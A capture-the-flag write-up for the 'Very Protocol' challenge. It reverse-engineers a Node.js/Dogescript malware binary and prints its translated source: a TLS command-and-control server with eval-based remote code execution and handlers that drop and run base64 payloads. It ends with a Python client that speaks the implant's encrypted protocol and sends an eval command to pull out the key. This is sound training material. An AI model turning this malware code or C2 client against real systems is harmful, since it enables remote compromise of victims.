

# CATAPULT SPIDER - Very Protocol

We now have a copy of CATAPULT SPIDER's malware. Our task is to reverse engineer the 
protocol and retrieve the encryption key from the malware server. We're going down the
Doge rabbit hole.

## Challenge description



> We were approached by a CATAPULT SPIDER victim that was compromised and had all their cat pictures encrypted. Employee morale dropped to an all-time low. We believe that we identified a [binary file](https://adversaryquest-static.s3.amazonaws.com/CuchSewdAnwanAff/malware) that is related to the incident and is still running in the customer environment, accepting command and control traffic on

> `veryprotocol.challenges.adversary.zone:41414`

> Can you help the customer recover the encryption key?

## Solution

Downloading the malware file, we see it's a farily large Linux binary:

```shell-session
xps15$ ls -l malware
-rwxr-xr-x 1 jra jra 48073657 Jan 20 07:41 malware*
xps15$ file malware
malware: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=101536e3a95f4d38ffb8627533070d093d1ee165, with debug_info, not stripped
```

Running `strings` on the binary reveals the file contains much JavaScript code. The
last string returned is `<nexe~~sentinel>`, which gives us a clue as to how the
binary was built. [nexe](https://github.com/nexe/nexe) is a tool that packages
[Node.js](https://nodejs.org/en/) files into a single executable for easy distrbution. 

Digging through the file with an editor such as `vi`, we can laboriously look through all 
of the JavaScript files embedded in the malware. One chunk, however, jumps out as suspicious:
it's not JavaScript, but a language known as [dogescript](https://dogescript.io/) (of course).

Pulling out the Dogescript files, we see that this is the main program of the malware (trimmed
for length):

```js
so tls as tls
so fs as fs
so dogeon as dson
so dogescript as dogescript
so ./muchmysterious as mysterious
so child_process as cp

very cript_key is plz Math.random with &
dose toString with 36&
dose substr with 2 15

rly process.env.CRYPTZ is undefined
  plz console.loge with 'no cryptz key. doge can not crypt catz.'
  process dose exit with 1
wow
very secrit_key = plz cript with process.env.CRYPTZ cript_key
process.env.CRYPTZ is 'you dnt git key'
delete process.env.CRYPTZ next

networker_file is fs dose readFileSync with './networker.djs'&
dose toString with 'utf-8'
very networker_doge is plz dogescript with networker_file
very Networker is plz eval with networker_doge

... (much code. such doge. wow)

const server = tls.createServer(options, (socket) => {
  console.log('doge connected: ',
              socket.authorized ? 'TOP doge' : 'not top doge');
  let networker = new Networker(socket, (data) => {
    very doge_lingo is data dose toString
        plz console.log  with 'top doge sez:' doge_lingo
    very doge_woof is plz dogeParam with doge_lingo
    networker dose send with doge_woof
      networker.send(dogeParam(data.toString()));
  });
//networker dose init with 'such doge is yes wow' 'such doge is shibe wow'
});
server.listen(41414, () => {
  plz console.loge with 'doge waiting for command from top doge'
});
server.on('connection', function(c) {
	plz console.loge with 'doge connect'
});
server.on('secureConnect', function(c) {
	plz console.loge with 'doge connect secure'
});
```

And a module for the network protocol:

```js
so crypto as crypto

classy Networker

    maker socket handler
      dis giv socket is socket
      dis giv _packet is {}
      dis giv _process is false
      dis giv _state is 'HEADER'
      dis giv _payloadLength is 0
      dis giv _bufferedBytes is 0
      dis giv queue is []
      dis giv handler is handler
    wow
    next

... (more code. shibe good boi.)

    _send(){
      very contentLength is plz Buffer.allocUnsafe with 4
      plz contentLength.writeUInt32BE with this._packet.header.length
      plz this.socket.write with contentLength
      plz this.socket.write with this._packet.message
      this._packet is {}
    }
    next
wow

woof Networker
```

Thankfully, we don't have to learn Dogescript to reverse engineer the malware. An [online
translator](https://dogescript.io/live/) is available that will turn this into actual JavaScript.
Running the Dogescript files through the translator provides more readable code:

Main program
```js linenums="1"
var tls = require('tls');
var fs = require('fs');
var dson = require('dogeon');
var dogescript = require('dogescript');
var mysterious = require('./muchmysterious');
var cp = require('child_process');

var cript_key = Math.random()
    .toString(36)
    .substr(2, 15);

if (process.env.CRYPTZ === undefined) {
    console.log('no cryptz key. doge can not crypt catz.');
    process.exit(1);
}
var secrit_key = cript(process.env.CRYPTZ, cript_key);
process.env.CRYPTZ = 'you dnt git key';
delete process.env.CRYPTZ;
networker_file = fs.readFileSync('./networker.djs')
    .toString('utf-8');
var networker_doge = dogescript(networker_file);
var Networker = eval(networker_doge);

function cript(input, key) {
    var c = Buffer.alloc(input.length);
    while (key.length < input.length) {
        key += key;
    }
    var ib = Buffer.from(input);
    var kb = Buffer.from(key);
    for (i = 0; i < input.length; i++) {
        c[i] = ib[i] ^ kb[i]
    }
    return c.toString();
}

function dogeParam(buffer) {
    var doge_command = dson.parse(buffer);
    var doge_response = {};

    if (!('dogesez' in doge_command)) {
        doge_response['dogesez'] = 'bonk';
        doge_response['shibe'] = 'doge not sez';
        return dson.stringify(doge_response);
    }

    if (doge_command.dogesez === 'ping') {
        doge_response['dogesez'] = 'pong';
        doge_response['ohmaze'] = doge_command.ohmaze;
    }

    if (doge_command.dogesez === 'do me a favor') {
        var favor = undefined;
        var doge = undefined;
        try {
            doge = dogescript(doge_command.ohmaze);
            favor = eval(doge);
            doge_response['dogesez'] = 'welcome';
            doge_response['ohmaze'] = favor;
        } catch {
            doge_response['dogesez'] = 'bonk';
            doge_response['shibe'] = 'doge sez no';
        }
    }

    if (doge_command.dogesez === 'corn doge') {
        if ((!('batter' in doge_command) || !('sausage' in doge_command))) {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'corn doge no batter or sausage';
            return dson.stringify(doge_response);
        }

        if ((!('meat' in doge_command['sausage']) || !('flavor' in doge_command['sausage']))) {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'sausage no meat or flavor';
            return dson.stringify(doge_response);
        }

        var stupid = Array.isArray(doge_command['sausage']['flavor']);
        if (!stupid) {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'flavor giv not levl';
            return dson.stringify(doge_response);
        }

        var stupidtoo = Buffer.from(doge_command.batter, 'base64')
            .toString('base64');
        if (stupidtoo === doge_command.batter) {
            doge_response['dogesez'] = 'eated';
            var meat = doge_command['sausage']['meat'];
            var flavor = doge_command['sausage']['flavor'];
            var doge_carnval = Buffer.from(doge_command.batter, 'base64');
            var randome = Math.random()
                .toString(36)
                .substr(2, 9)
            var filename = '/tmp/corndoge-' + randome + '.node';
            fs.writeFileSync(filename, doge_carnval);
            try {
                var doge_module = require('' + filename + '');
                var retval = doge_module[meat](...flavor);
                doge_response['taste'] = retval;
            } catch {
                doge_response['dogesez'] = 'bonk';
                doge_response['shibe'] = 'bad corn doge';
            } finally {
                delete require.cache[require.resolve(filename)]
            };
        } else {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'all bout base six fur';
        }
    }

    if (doge_command.dogesez === 'hot doge') {
        if ((!('bread' in doge_command) || !('sausage' in doge_command))) {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'hot doge no bread or sausage';
            return dson.stringify(doge_response);
        }

        if (!'flavor' in doge_command['sausage']) {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'sausage no flavor';
            return dson.stringify(doge_response);
        }

        var stupid = Array.isArray(doge_command['sausage']['flavor']);
        if (!stupid) {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'flavor giv not levl';
            return dson.stringify(doge_response);
        }

        var stupidtoo = Buffer.from(doge_command.bread, 'base64')
            .toString('base64');

        if (stupidtoo === doge_command.bread) {
            doge_response['dogesez'] = 'eated';
            var flavor = doge_command['sausage']['flavor'];
            var doge_carnval = Buffer.from(doge_command.bread, 'base64');;
            var randome = Math.random()
                .toString(36)
                .substr(2, 9)
            var filename = '/tmp/hotdoge-' + randome + '.bin';
            fs.writeFileSync(filename, doge_carnval);
            fs.chmodSync(filename, '755');
            try {
                var retval = cp.execFileSync(filename, flavor);
                doge_response['taste'] = retval.toString('utf-8');
            } catch (error) {
                if ('status' in error) {
                    doge_response['dogesez'] = 'eated';
                    var errstd = error.stdout.toString('utf-8');
                    var errerr = error.stderr.toString('utf-8');
                    doge_response['taste'] = errstd;
                    doge_response['error'] = errerr;
                    if (error.status === 27) {
                        doge_response['shibe'] = 'wow such module thx top doge';
                    }
                } else {
                    doge_response['dogesez'] = 'bonk';
                    doge_response['shibe'] = 'bad hot doge';
                }
            } finally {
                delete require.cache[require.resolve(filename)]
            };
        } else {
            doge_response['dogesez'] = 'dnt cunsoome';
            doge_response['shibe'] = 'all bout base six fur';
        }
    }

    return dson.stringify(doge_response);
}

const options = {
    key: servs_key,
    cert: servs_cert,
    requestCert: true,
    rejectUnauthorized: true,
    ca: [doge_ca]
};

const server = tls.createServer(options, (socket) => {
    console.log('doge connected: ',
        socket.authorized ? 'TOP doge' : 'not top doge');
    let networker = new Networker(socket, (data) => {
        var doge_lingo = data.toString();
        // console.log('top doge sez:', doge_lingo);
        var doge_woof = dogeParam(doge_lingo);
        networker.send(doge_woof);
        // networker.send(dogeParam(data.toString()));
    });
    networker.init('such doge is yes wow', 'such doge is shibe wow');
});
server.listen(41414, () => {
    console.log('doge waiting for command from top doge');
});
server.on('connection', function(c) {
    console.log('doge connect');
});
server.on('secureConnect', function(c) {
    console.log('doge connect secure');
});
```

Network protocol
```js linenums="1"
var crypto = require('crypto');

class Networker {

    constructor(socket, handler) {
        this.socket = socket;
        this._packet = {};
        this._process = false;
        this._state = 'HEADER';
        this._payloadLength = 0;
        this._bufferedBytes = 0;
        this.queue = [];
        this.handler = handler;
    };

    init(hmac_key, aes_key) {
        var salty_wow = 'suchdoge4evawow';
        this.hmac_key = crypto.pbkdf2Sync(hmac_key, salty_wow, 4096, 16, 'sha256');
        this.aes_key = crypto.pbkdf2Sync(aes_key, salty_wow, 4096, 16, 'sha256');

        var f1 = (data) => {
            this._bufferedBytes += data.length;
            this.queue.push(data);
            this._process = true;
            this._onData();
        };
        this.socket.on('data', f1);

        this.socket.on('error', function(err) {
            console.log('Socket not shibe: ', err);
        });
        var dis_handle = this.handler;
        this.socket.on('served', dis_handle);
    };
    _hasEnough(size) {
        if (this._bufferedBytes >= size) {
            return true;
        }
        this._process = false;
        return false;
    };
    _readBytes(size) {
        let result;
        this._bufferedBytes -= size;

        if (size === this.queue[0].length) {
            return this.queue.shift();
        }

        if (size < this.queue[0].length) {
            result = this.queue[0].slice(0, size);
            this.queue[0] = this.queue[0].slice(size);
            return result;
        }

        result = Buffer.allocUnsafe(size);
        let offset = 0;
        let length;
        while (size > 0) {
            length = this.queue[0].length;

            if (size >= length) {
                this.queue[0].copy(result, offset);
                offset += length;
                this.queue.shift();
            } else {
                this.queue[0].copy(result, offset, 0, size);
                this.queue[0] = this.queue[0].slice(size);
            }

            size -= length;
        }
        return result;
    };
    _getHeader() {
        let stupid = this._hasEnough(4);
        if (stupid) {
            this._payloadLength = this._readBytes(4).readUInt32BE(0, true);
            this._state = 'PAYLOAD';
        }
    };
    _getPayload() {
        let stupid = this._hasEnough(this._payloadLength);
        if (stupid) {
            let received = this._readBytes(this._payloadLength);
            this._parseMessage(received);
            this._state = 'HEADER';
        }
    };
    _onData(data) {
        while (this._process) {
            if (this._state === 'HEADER') {
                this._getHeader();
            }
            if (this._state === 'PAYLOAD') {
                this._getPayload();
            }
        }
    };
    _encrypt(data) {
        var iv = Buffer.alloc(16, 0);
        var wow_cripter = crypto.createCipheriv('aes-128-cbc', this.aes_key, iv);
        wow_cripter.setAutoPadding(true);
        return Buffer.concat([wow_cripter.update(data), wow_cripter.final()]);
    };
    _decrypt(data) {
        var iv = Buffer.alloc(16, 0);
        var wow_decripter = crypto.createDecipheriv('aes-128-cbc', this.aes_key, iv);
        wow_decripter.setAutoPadding(true);
        return Buffer.concat([wow_decripter.update(data), wow_decripter.final()]);
    };
    send(message) {
        let hmac = crypto.createHmac('sha256', this.hmac_key);
        let mbuf = this._encrypt(message);
        hmac.update(mbuf);
        let chksum = hmac.digest();
        let buffer = Buffer.concat([chksum, mbuf]);
        this._header(buffer.length);
        this._packet.message = buffer;
        this._send();
    };
    _parseMessage(received) {
        var hmac = crypto.createHmac('sha256', this.hmac_key);
        var checksum = received.slice(0, 32)
            .toString('hex');
        var message = received.slice(32);
        hmac.update(message);
        let stupid = hmac.digest('hex');
        if (checksum === stupid) {
            var dec_message = this._decrypt(message);
            this.socket.emit('served', dec_message);
        }
    };
    _header(messageLength) {
        this._packet.header = {
            length: messageLength
        };
    };
    _send() {
        var contentLength = Buffer.allocUnsafe(4);
        contentLength.writeUInt32BE(this._packet.header.length);
        this.socket.write(contentLength);
        this.socket.write(this._packet.message);
        this._packet = {};
    };
}

module.exports = Networker
```

Also inside the malware is an embedded client certificate and RSA private key, which are
needed to authenticate against the malware server.

Digging into the start of the main program, we see the method used to generate the 
key:

```js linenums="8"
var cript_key = Math.random()
    .toString(36)
    .substr(2, 15);

if (process.env.CRYPTZ === undefined) {
    console.log('no cryptz key. doge can not crypt catz.');
    process.exit(1);
}
var secrit_key = cript(process.env.CRYPTZ, cript_key);
process.env.CRYPTZ = 'you dnt git key';
delete process.env.CRYPTZ;
```

A random `cript_key` is generated, then passed to the `cript()` function along with the
contents of the environment variable `CRYPTZ`, the result of which is stored in `secrit_key`.
The `CRYPTZ` environment variable is then set to a value (`you dnt get key`), then deleted
from memory, presumably in an attempt to prevent it's content from being discovered by
memory forensics. However, the same process is not performed on on the `cript_key` variable,
which will be important later.

The `cript()` function is a simple `XOR` of the two arguments:

```js linenums="24" hl_lines="9"

function cript(input, key) {
    var c = Buffer.alloc(input.length);
    while (key.length < input.length) {
        key += key;
    }
    var ib = Buffer.from(input);
    var kb = Buffer.from(key);
    for (i = 0; i < input.length; i++) {
        c[i] = ib[i] ^ kb[i]
    }
    return c.toString();
}
```

Continuing through the program, we see a function that parses commands sent to the server:

```js linenums="37" hl_lines="2"
function dogeParam(buffer) {
    var doge_command = dson.parse(buffer);
    var doge_response = {};

    if (!('dogesez' in doge_command)) {
        doge_response['dogesez'] = 'bonk';
        doge_response['shibe'] = 'doge not sez';
        return dson.stringify(doge_response);
    }

    if (doge_command.dogesez === 'ping') {
        doge_response['dogesez'] = 'pong';
        doge_response['ohmaze'] = doge_command.ohmaze;
    }

    if (doge_command.dogesez === 'do me a favor') {
        var favor = undefined;
        var doge = undefined;
        try {
            doge = dogescript(doge_command.ohmaze);
            favor = eval(doge);
            doge_response['dogesez'] = 'welcome';
            doge_response['ohmaze'] = favor;
        } catch {
            doge_response['dogesez'] = 'bonk';
            doge_response['shibe'] = 'doge sez no';
        }
    }
...
```

The function is passed a buffer containing a command string, which is encoded as
`DSON`, or [Doge Serialized Object Notation](https://dogeon.xyz/) (sigh). The malware
is using the [dogeon](https://github.com/kpdecker/dogeon) serializer to parse the
requests from the client.  Commands from the client are passed as the value of the
`dogesez` attribute. There are many different commands, but the important one is `'do
me a favor'`, which runs a Dogescript and returns the result to the caller. We can
also perform a `'ping'` to the server to check that our messages are being received
correctly. The remaining commands deal with encrypting files sent to the server,
but for the purposes of this CTF aren't necessary.

At the end of the main program is the code that handles connections from the client:

```js linenums="176" hl_lines="4 5 10 11 13 19"
const options = {
    key: servs_key,
    cert: servs_cert,
    requestCert: true,
    rejectUnauthorized: true,
    ca: [doge_ca]
};

const server = tls.createServer(options, (socket) => {
    console.log('doge connected: ',
        socket.authorized ? 'TOP doge' : 'not top doge');
    let networker = new Networker(socket, (data) => {
        var doge_lingo = data.toString();
        // console.log('top doge sez:', doge_lingo);
        var doge_woof = dogeParam(doge_lingo);
        networker.send(doge_woof);
        // networker.send(dogeParam(data.toString()));
    });
    networker.init('such doge is yes wow', 'such doge is shibe wow');
});
server.listen(41414, () => {
    console.log('doge waiting for command from top doge');
});
server.on('connection', function(c) {
    console.log('doge connect');
});
server.on('secureConnect', function(c) {
    console.log('doge connect secure');
});
```

The `tls.createServer` function creates a server to receive requests. The `options` specify
that the server will request a certificate from the client, and will reject any connections
from clients that don't. Finally, the data is passed through a `networker` object, defined 
in the `Network protocol` above. 

We see the `init` method of the `networker` object is called with two strings: `such
doge is yes wow` and `such doge is dhibe wow`. These phrases are combined with the salt
`suchdoge4evawow` to create two keys: 1 for an HMAC algorithm, and one for AES encryption.

```js linenums="16" hl_lines="3 4"
    init(hmac_key, aes_key) {
        var salty_wow = 'suchdoge4evawow';
        this.hmac_key = crypto.pbkdf2Sync(hmac_key, salty_wow, 4096, 16, 'sha256');
        this.aes_key = crypto.pbkdf2Sync(aes_key, salty_wow, 4096, 16, 'sha256');
```

The encryption method used is AES, in CBC-128 mode:

```js linenums="100"
    _encrypt(data) {
        var iv = Buffer.alloc(16, 0);
        var wow_cripter = crypto.createCipheriv('aes-128-cbc', this.aes_key, iv);
        wow_cripter.setAutoPadding(true);
        return Buffer.concat([wow_cripter.update(data), wow_cripter.final()]);
    };
    _decrypt(data) {
        var iv = Buffer.alloc(16, 0);
        var wow_decripter = crypto.createDecipheriv('aes-128-cbc', this.aes_key, iv);
        wow_decripter.setAutoPadding(true);
        return Buffer.concat([wow_decripter.update(data), wow_decripter.final()]);
    };
```

The meat of the network protocl is in the `send()` and `_send()` methods:

```js linenums="112" hl_lines="2 4 5 6"
    send(message) {
        let hmac = crypto.createHmac('sha256', this.hmac_key);
        let mbuf = this._encrypt(message);
        hmac.update(mbuf);
        let chksum = hmac.digest();
        let buffer = Buffer.concat([chksum, mbuf]);
        this._header(buffer.length);
        this._packet.message = buffer;
        this._send();
    };
```
```js linenums="139"
    _send() {
        var contentLength = Buffer.allocUnsafe(4);
        contentLength.writeUInt32BE(this._packet.header.length);
        this.socket.write(contentLength);
        this.socket.write(this._packet.message);
        this._packet = {};
    };
```

The message is encrypted with the AES keys created in `init()` method, then an HMAC
of the encrypted content is generated and is prepended to the message. The message is
actually sent in the `_send()` method, which first writes an unsigned 32-bit number
containing the length of the message to the socket, then the message itself. 

Incoming messages are handled in reverse, in the `_parseMessage()` function. The checksum
passed with the message is stripped from the beginning, a new checksum is generated to compare
against the received one, and if the checksums match, the message is decrypted and returned
to the server.

```js linenums="122"
    _parseMessage(received) {
        var hmac = crypto.createHmac('sha256', this.hmac_key);
        var checksum = received.slice(0, 32)
            .toString('hex');
        var message = received.slice(32);
        hmac.update(message);
        let stupid = hmac.digest('hex');
        if (checksum === stupid) {
            var dec_message = this._decrypt(message);
            this.socket.emit('served', dec_message);
        }
    };
```

With all of these pieces, we can build a Python script to emulate the malware's communication with
the server:

```python linenums="1"
#!/usr/bin/env python3

# CATAPULT SPIDER malware protocol
#
# Joe Ammond (pugpug) @joeammond

import sys
from pwn import *

from Crypto.Protocol.KDF import PBKDF2
from Crypto.Hash import SHA512, SHA256, HMAC
from Crypto.Random import get_random_bytes
from Crypto.Cipher import AES

# Create the HMAC and AES keys
salty_wow   = 'suchdoge4evawow'
hmac_wow    = 'such doge is yes wow'
aes_wow     = 'such doge is shibe wow'

hmac_key    = PBKDF2(hmac_wow, salty_wow, 16, count=4096, hmac_hash_module=SHA256)
aes_key     = PBKDF2(aes_wow, salty_wow, 16, count=4096, hmac_hash_module=SHA256)

# Who we communicate with
host = 'veryprotocol.challenges.adversary.zone'

# Client certificate and private key, from the malware executable
ssl_opts = {
    'keyfile':  'doge_key',
    'certfile': 'doge_cert',
}

# Encrypt the message, and prepend the HMAC
def encrypt(data):
    iv = b'\0' * 16
    cipher = AES.new(aes_key, AES.MODE_CBC, iv=iv)

    length = 16 - (len(data) % 16)
    data += bytes([length])*length

    enc = cipher.encrypt(data)

    hmac = HMAC.new(hmac_key, digestmod=SHA256)
    hmac.update(enc)

    digest = hmac.digest()

    return (digest + enc)

# Decrypt the message, and verify that the HMAC matches
def decrypt(data):
    checksum = data[:32].hex()
    message = data[32:]

    hmac = HMAC.new(hmac_key, digestmod=SHA256)
    hmac.update(message)

    verify = hmac.hexdigest()

    if checksum == verify:
        iv = b'\0' * 16
        cipher = AES.new(aes_key, AES.MODE_CBC, iv=iv)
        plaintext = cipher.decrypt(message)
        return(plaintext)
    else:
        return 'bonk'

# Main loop: read a DSON string, encrypt it, send it to the server,
# receive the response, print it.
while True:

    # Read a string
    command = bytes(input('Shibe sez? ').strip(), 'utf-8')

    # Shibe sez quit
    if command == 'quit':
        sys.exit(0)

    # Connect to the server
    r = remote(host, 41414, ssl=True, ssl_args=ssl_opts)

    # Encrypt it
    ciphertext = encrypt(command)

    # Send the message length as u32, then the message
    length = p32(len(ciphertext), endianness="big", sign="unsigned")
    r.send(length)
    r.send(ciphertext)

    # Read the response length, and the message
    length = r.recv(4)
    response = r.recvall(timeout=5)
    r.close()

    # Decrypt the message and print it
    plaintext = decrypt(response)
    print(plaintext)
    print()
```

The code is fairly straightforward. To retrieve the key from the server, we can use the 
`cript()` function with the `cript_key` value generated by the server. Running XOR on the
`secrit_key` with the `cript_key` reverses the "encryption", revealing the original
value of the `CRYPTZ` environment variable:

```
(pwn) xps15$ python3 hammer.py
Shibe sez? such "dogesez" is "do me a favor" next "ohmaze" is "cript(secrit_key, cript_key)" wow
[+] Opening connection to veryprotocol.challenges.adversary.zone on port 41414: Done
[+] Receiving all data: Done (128B)
[*] Closed connection to veryprotocol.challenges.adversary.zone port 41414
b'such "dogesez" is "welcome" next "ohmaze" is "CS{such_Pr0t0_is_n3tw0RkS_w0W}" wow\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f'
```

And there's the flag: CS{such_Pr0t0_is_n3tw0RkS_w0W}.

## Answer
**`CS{such_Pr0t0_is_n3tw0RkS_w0W}`**
